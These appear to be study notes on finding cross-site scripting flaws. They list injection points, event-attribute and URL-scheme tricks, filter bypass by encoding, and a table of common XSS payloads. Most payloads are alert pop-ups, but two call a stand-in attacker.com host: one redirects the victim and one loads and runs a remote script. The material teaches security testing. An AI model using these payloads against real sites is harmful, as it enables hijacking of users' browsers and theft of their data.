- Once you've found some user input opportunities, start testing with XSS payloads. An alert payload is simple and effective:
  `<script>alert('Vulnerable to XSS');</script>`

  - This is nice because you get a pop-up if the attack is successful.
  - This is less likely to work on modern web apps, but is more likely to work on IoT or embedded applications that don't use the latest frameworks.
  - For IoT learning check out OWASP's [IoTGoat project](https://github.com/OWASP/IoTGoat/)

- Changing the values of attributes in HTML tags is another way to try to sneak a payload into a web application.
  - ex. of the `onload` event attribute running a script after the HTML element has loaded (similar for `onclick` and `onerror` event attributes):
    `<img onload=alert('The image has been loaded!') src="example.png">`
  - You can try inserting code into these attributes or adding a new event attribute into an HTML tag.
- Try to achieve an XSS through special URL schemes like `javascript:` and `data:`.

  - `javascript:` URL scheme allows you to execute JavaScript code specified in the URL.
    `javascript:alert('Vulnerable to XSS')`
  - The `data:` scheme allows you to embed small files in a URL, including JavaScript code:
    `data:text/html:base64,PHNjcmlwdD5hbGVydCgnVnVsbmVyYWJsZSB0byBYU1MnKTwvc2NyaXB0Pg==`
  - The above is the base64 encoded version of: `data:text/html:base64.<script>alert('Vulnerable to XSS')</script>`
  - You don't need to base64 encode, but it's always a good idea to try this if a non-encoded payloads don't work as it can help bypass XSS filters (and any other injection filters for that matter).
  - For more ways to execute JavaScript by bypassing XSS protection you can look on PortSwigger's [cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet/) for payload examples.
  - It can be helpful to use multiple browsers to test for XSS because different browsers support different tags and event handlers.

- "When inserting an XSS payload, you'll often have to close out a previous HTML tag by including its closing angle bracket. This is necessary when you're placing your user input inside one HTML element but want to run JavaScript using a different HTML element."
  - Doing this avoids syntax errors.
  - ex:
    `<img src="USER_INPUT">`
  - To close out the tag, you would need supply the following to the input field:
    `"/><script>location="http://attacker.com";</script>`
  - The target would then receive this:
    `<img src=""/><script>location="http://attacker.com";</script>">`
  - Use a proxy to check if the payload has caused syntax errors in the returned document.
  - Use your browser to see if there are any errors loading the page.

Table 6-1: Common XSS Payloads  
 |Payload|Purpose|
|---|---|
|`<script>alert(1)</script>`| This is the most generic XSS payload. It will generate a pop-up box if the payload succeeds|
|`<iframe src=javascript:alert(1)>`| This payload loads JavaScript code within an iframe. It's useful when <script> tags are banned by the XSS filter|
|`<body onload=alert(1)>`| This paylaod is useful when your input string can't contain the term _script_. It inserts an HTML element that will run JavaScript automatically after it's loaded.|
|`"><img src=x onerror=prompt(1);>`| This payload closes out the previous tag. It then injects an <img> tag with an invalid source URL. Once the tag fails to load, it will run the JavaScript specified in the onerror attribute.|
|`<script>alert(1)<!-`| <! is the start of an HTML comment. This payload will comment out the rest of the line in the HTML document to prevent syntax errors.|
|`<a onmouseover"alert(1)">test</a>`| This payload inserts a link that will cause JavaScript to execute after a user hovers over the link with their cursor.|
|`<script src=//attacker.com/test.js>`|This payload causes the browser to load and run an external script hosted on the attacker's server.|
